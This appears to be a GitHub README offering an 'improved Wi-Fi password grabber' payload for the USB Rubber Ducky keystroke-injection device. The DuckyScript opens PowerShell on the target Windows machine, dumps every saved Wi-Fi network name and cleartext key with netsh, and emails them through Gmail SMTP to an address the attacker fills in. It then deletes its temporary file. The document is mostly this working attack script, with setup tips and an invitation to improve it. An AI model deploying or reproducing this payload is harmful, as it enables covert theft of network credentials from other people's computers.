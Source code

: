 ## Slightly improved version of [WiFi password grabber](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber) by Siem

### Make sure to change "YOUREMAIL@gmail.com" with your G-Mail, and "PASSWORD" with your password

### Code:
```
REM Title       : Improved Wi-Fi Password Grabber
REM Author      : Jacob Collins
REM Version     : 3
REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.
REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!), and "PASSWORD" (without quotes) with your password.
REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps
DELAY 1000
REM --------> Open the run dialog
GUI r
DELAY 500
REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.
STRING cmd /c powershell && exit
DELAY 500
Rem --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com
STRING $out=((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":");$i=0;ForEach($line in $out){if($i -eq "1") {(netsh wlan show profile $line.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$i++}else{$i=1}};$SMTPServer="smtp.gmail.com";$SMTPInfo=New-Object Net.Mail.SmtpClient($SmtpServer,587);$SMTPInfo.EnableSsl=$true;$SMTPInfo.Credentials=New-Object System.Net.NetworkCredential("YOUREMAIL@gmail.com","PASSWORD");$ReportEmail=New-Object System.Net.Mail.MailMessage;$ReportEmail.From="YOUREMAIL@gmail.com";$ReportEmail.To.Add("YOUREMAIL@gmail.com");$ReportEmail.Subject=($env:UserName+"@"+$env:UserDomain);$ReportEmail.Body=(Get-Content a|out-string);$SMTPInfo.Send($ReportEmail);rm a;exit
```
### Suggestions
Please feel free to leave any suggestions, like code minimization, fixes etc.